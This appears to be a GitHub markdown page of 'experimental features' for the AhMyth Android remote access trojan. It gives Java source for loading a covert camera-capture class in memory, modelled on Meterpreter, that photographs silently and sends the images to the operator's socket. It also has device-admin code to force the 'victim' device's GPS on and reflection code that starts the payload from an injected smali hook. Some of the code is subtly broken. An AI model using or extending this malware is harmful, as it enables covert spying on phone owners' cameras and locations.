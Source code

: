 # <div align="center">Experminetal Features</div>

A file used to store code for experimental client and server features that could be released with future releases if they prove successful.

<details>
  <summary>Experimental Client Features</summary>

#
## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import org.apache.commons.vfs2.*;
import org.apache.commons.vfs2.provider.ram.RamFileProvider;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.OutputStream;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            // Create an in-memory file system manager with RamFileProvider
            FileSystemManager fsManager = VFS.getManager();
            fsManager.addProvider("ram", new RamFileProvider());

            // Define the path to the in-memory Java source file
            String javaFilePath = "ram:///CameraManager.java";

            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            // Create an in-memory file for the Java source code
            FileObject javaFile = fsManager.resolveFile(javaFilePath);
            
            // Write the generated Java source code to the in-memory file
            try (OutputStream os = javaFile.getContent().getOutputStream()) {
                os.write(camTempSourceCode.getBytes());
            }

            // Define the path to the in-memory .dex file
            String dexPath = "ram:///CameraManager.dex";

            // Create an in-memory file for the compiled .dex
            FileObject dexFile = fsManager.resolveFile(dexPath);

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFileObj = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFileObj.toString();

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, javaFilePath); // Compile the in-memory Java source file

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            // Load the compiled .dex from in-memory
            ClassLoader classLoader = new DexClassLoader(
                    dexFile.getURL().toString(),
                    null,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)
  
  <br>

## <div align="center"><ins>Generation Phase</div></ins>
1. **In memory:** Creates an in-memory file system manager with the *RamFileProvider*.
2. **In memory:** Defines the path to the in-memory Java source file `("ram:///CameraManager.java")`.
3. **In memory:** Retrieves the source code for the `"CameraManager"` class from `"CamTemp.CAMERA_SOURCE_CODE."`
4. **In memory:** Creates an in-memory file to store the Java source code.
5. **In memory:** Writes the generated Java source code to the in-memory file.

## <div align="center"><ins>Loading Phase</div></ins>
6. **In memory:** Defines the path to the in-memory *.dex* file `("ram:///CameraManager.dex")`.
7. **In memory:** Creates an in-memory file to store the compiled *.dex* file.
8. **In memory:** Defines the structure and content of the `"CameraManager"` class using *JavaPoet*.
9. **In memory:** Converts the JavaPoet representation of the class to a string.
10. **In memory:** Compiles the in-memory Java source code into a .dex file using the *Java Compiler*.
11. **In memory:** Checks the compilation result, and if successful, prints "Compilation succeeded."
12. **In memory:** Loads the compiled .dex file into memory using a *DexClassLoader*.
13. **In memory:** Attempts to create an instance of the dynamically generated `"CameraManager"` class in memory.

**Reiteration:**

In both the Generation and Loading Phases, most actions are performed in memory. The code dynamically generates, compiles, and loads the `"CameraManager"` class along with its source code and compiled *.dex* file, all within the program's memory space. The only actions not performed in memory are related to the file system, where it writes the generated Java source code and reads the compiled *.dex* file.

</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```

</details>
<br>

## <div align="center">Find context in Main App or Activity Classes using reflection</div>

This will hopefully allow the static smali hook to start the AhMyth Payload's main serivce if its in a main acitivity or main application class

<details>
  <summary>Code</summary>
  <br>

  ```java
private static void findAndStartService() {
    boolean success = findContext(); // Try the application variant first
    
    // If the application variant fails, try the activity variant
    if (!success) {
        findContextFromActivity();
    }
}

private static boolean findContextFromActivity() {
    try {
        Class<?> activityThreadClass = Class.forName("android.app.ActivityThread");
        final Method currentActivityThread = activityThreadClass.getMethod("currentActivityThread");
        final Object activityThread = currentActivityThread.invoke(null);
        
        final Method currentActivity = activityThreadClass.getMethod("currentActivity");
        final Activity currentActivityInstance = (Activity) currentActivity.invoke(activityThread);

        if (currentActivityInstance == null) {
            final Handler handler = new Handler(Looper.getMainLooper());
            handler.post(new Runnable() {
                public void run() {
                    try {
                        Activity activity = (Activity) currentActivity.invoke(activityThread);
                        if (activity != null) {
                            startService(activity);
                        }
                    } catch (Exception ignored) {
                    }
                }
            });
        } else {
            startService(currentActivityInstance);
        }        
        return true; // Success
    } catch (Exception e) {
        // Handle the exception
        return false; // Failure
    }
}

private static boolean findContext() {
    try {
        Class<?> activityThreadClass = Class.forName("android.app.ActivityThread");
        final Method currentApplication = activityThreadClass.getMethod("currentApplication");
        final Context context = (Context) currentApplication.invoke(null);
        if (context == null) {
            final Handler handler = new Handler(Looper.getMainLooper());
            handler.post(new Runnable() {
                public void run() {
                    try {
                        Context context = (Context) currentApplication.invoke(null);
                        if (context != null) {
                            startService(context);
                        }
                    } catch (Exception ignored) {
                        // Handle the exception
                    }
                }
            });
            return false; // Failure
        } else {
            startService(context);
            return true; // Success
        }
    } catch (Exception e) {
        // Handle the exception
        return false; // Failure
    }
}

private static void startService(Context context) {
    // Implement your service start logic here
    // You can use the 'context' parameter to start the service
}
```

</details>
</details>

#

<details>
  <summary>Experminetal Server Features</summary>

### Nothing to show.

</details>
